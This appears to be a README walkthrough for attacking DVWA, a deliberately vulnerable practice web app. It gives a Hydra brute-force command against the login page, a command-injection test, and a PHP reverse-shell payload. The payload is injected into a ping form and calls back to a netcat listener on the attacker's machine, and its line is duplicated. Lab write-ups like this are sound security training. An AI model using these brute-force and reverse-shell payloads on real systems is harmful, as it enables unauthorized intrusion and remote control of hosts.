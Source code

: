## Set up DVWA

You'll need to set up the DVWA. To do this type any letter or word in the `username` and `password` fields. You'll be directed to the **Database Setup page**. Go to the bottom of the page and click the `Create / Reset Databse` button. Once the database has been created you'll be redirected to the login screen once more.  

## Brute Force the login page

<img alt="Hydra" src="https://img.shields.io/badge/-Hydra-1a73e8?style=flat-square&logo=Hydra&logoColor=white" />




MACHINE_IP/login.php

` hydra -l admin -P <path/to/password/file> MACHINE_IP http-post-form "/login.php:username=^USER^&password=^PASS^:F='Login failed'" -V `


## Command Injection

##### Vulnerability Level: 

[![css progressbar](https://readme-components.vercel.app/api?component=linearprogress&skill=Low&value=25)](https://github.com/harish-sethuraman/readme-components)

1. Testing for vulnerability by listing the directories
` 8.8.8.8;ls `

2. Gaining a Reverse Shell
    - Open a netcat listener in Kali terminal
    ` nc -lnvp 4242`

    - Past this code in the 'Enter an IP address: ' form. Make sure to prepend an IP address for the ping command to run and the reverse shell to work.
    `8.8.8.8;php -r '$sock=fsockopen("<KaliMachineIP>",4242);exec("/bin/sh -i <&3 >&3 2>&3");' php -r '$sock=fsockopen("<kaliMACHINEIP>",4242);exec("/bin/sh -i <&3 >&3 2>&3");' `
